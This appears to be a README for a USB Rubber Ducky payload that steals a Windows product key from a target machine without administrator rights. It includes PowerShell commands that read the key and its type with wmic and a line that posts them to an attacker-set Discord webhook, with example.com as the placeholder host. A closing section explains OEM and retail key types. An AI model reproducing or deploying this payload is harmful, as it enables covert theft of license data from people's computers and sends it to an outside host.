

# Exfiltrate Windows Product Key

Through this payload, you can export the key information related to the Windows Product Key, knowing its type and the key itself, using a Discord Webhook.

No administrator permissions are required to do this, isn't that absurd, right? :-)



**Category**: Exfiltration

## Index

- [Introduction](#exfiltrate-windows-product-key)
- [Note](#note)
- [Dependencies](#dependencies)
- [Settings](#settings)
- [Payload Description](#payload-description)
- [Product Key Types](#product-key-types)
- [Sources](#sources)

## Note

Tested on:
- Windows 11

## Dependencies

- Discord Webhook

## Settings

This portion of the payload serves as a user-defined configuration section where you should input your Discord Webhook URL. You should replace "example.com" with the actual Discord Webhook URL you want to use. The Webhook URL is the endpoint where your payload will send the acquired information related to the Windows Product Key, as well as its type, for exfiltration to a specified Discord channel or server. It's a crucial part of the payload that connects the data extraction process to your Discord platform for further analysis or actions.

```DuckyScript
DEFINE #DISCORD_WEBHOOK example.com
```

## Payload Description

Through this payload, you can export essential information related to the Windows Product Key using a Discord Webhook, ensuring that you identify its type and the key itself.

At the beginning of the payload, the DETECT_READY extension [[1](#sources)] is used to optimize the opening of a PowerShell session on the target.

The following commands are then executed to obtain the necessary information about the Product Key:

1. This command retrieves the currently in-use Product Key:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKey
   ```

2. This command helps determine the type of key. You can refer to the [key types section](#key-types) for more details:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKeyDescription
   ```

The acquired information is stored in the `$exfiltration` variable, which is subsequently used to create the `$payload` object. This object is then utilized for exfiltration via a Discord Webhook.

**Exfiltration via Discord Webhook**:

The `$hookUrl` variable was initialized at the beginning of the payload with the value you need to define before execution.

```powershell
Invoke-RestMethod -Uri $hookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType 'Application/Json'; exit
```

**Exfiltration via USB Rubber Ducky Storage**:

If you use the exfiltration method set up to retain data using Rubber Ducky's USB storage, you will not have to make any changes.

## Product Key Types

When dealing with Windows Product Keys, it's essential to understand the different types and their characteristics:

- **OEM Keys** (*Original Equipment Manufacturer*):

      **Transferability**: Not supposed to be transferable. These keys are typically tied to the prebuilt PC on which they were originally installed.
      **Usage**: Manufacturers use OEM keys to install Windows on new computers.
      **Procurement**: OEM keys can sometimes be found at discount key vendors, although their use on different hardware may be challenging.

- **Retail Keys** (*aka "Full Packaged Product" Keys*):
      
      **Transferability**: Transferrable. These keys can be moved from one computer to another.
      **Cost**: Retail keys are often more expensive, often exceeding $100.
      **Hidden Keys**: In some cases, a computer may already have a retail key, perhaps from a previous Windows upgrade. Users might not be aware of this until they check.

Understanding these key types is crucial when working with Windows Product Keys, as it can impact their use, transferability, and compatibility with different hardware and scenarios.

*Note: Source of this info [[2](#sources)]*

## Sources

- [1] Detect Ready: https://shop.hak5.org/blogs/usb-rubber-ducky/detect-ready
- [2] Is your Windows Product Key transferrable? https://www.tomshardware.com/how-to/transfer-windows-license-to-new-pc#is-your-windows-product-key-transferrable-3